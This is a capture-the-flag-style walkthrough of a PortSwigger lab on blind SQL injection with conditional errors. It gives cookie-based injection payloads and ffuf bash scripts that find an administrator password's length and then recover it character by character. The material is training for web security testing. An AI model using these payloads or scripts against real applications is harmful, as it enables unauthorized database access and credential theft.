

# Blind SQL injection with conditional errors

**Lab Url**: [https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)



## Analysis

According to the lab description, the application uses a tracking cookie for analytics and performs an SQL query containing the value of the submitted cookie. If the SQL query causes an error, then the application returns a custom error message.

**First, let's determine how many columns the query returns using the below payload.**

```bash
TrackingId=YOUR-TRACKING-ID'+ORDER+BY+1+--
```

In my case, the query returns only one column.

The second step is to determine which database is the application using. You can use [this cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) to craft a payload that determines the database type.

```bash
TrackingId=zmE1DO7belNvmYmn'+UNION+SELECT+banner+FROM+v$version+--
```

## Solution

Now that we know which database the application is running and how many columns the query returns. We can move forward and craft a payload that returns an error if a certain condition is true.

Like in the below payload if username `administrator` exists on table `users` it will cause an `Internal server error`.

```bash
TrackingId=YOUR-TRACKING-ID'+UNION+(SELECT+CASE+WHEN+(username='administrator')+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+users)+--
```

*Use the below command to determine the length of the administrator password.*

```bash
#!/bin/bash

echo {0..30} | tr ' ' '\n' > range.txt

ffuf -X GET \
    -u https://YOUR-LAB-ID.web-security-academy.net \
    -H "Cookie: TrackingId=YOUR-TRACKING-ID'+UNION+(SELECT+CASE+WHEN+(username='administrator'+AND+length(password)=FUZZ)+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+users)+--" \
    -w range.txt \
    -mc 500
```

**After determining the length of the password extract the administrator's password character by character.**

```bash
#!/bin/bash

echo {0..9} {a..z} {A..Z} | tr ' ' '\n' > chars.txt

end=YOUR-PASSWORD-LENGTH

for i in $(seq 1 "$end"); do
ffuf -X GET \
        -u https://YOUR-LAB-ID.web-security-academy.net \
        -H "Cookie: TrackingId=YOUR-TRACKING-ID'+UNION+(SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTR(password,$i,1)='FUZZ')+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+users)+--" \
        -w chars.txt \
        -mc 500
done
```

After extracting the administrator password login to solve this lab.


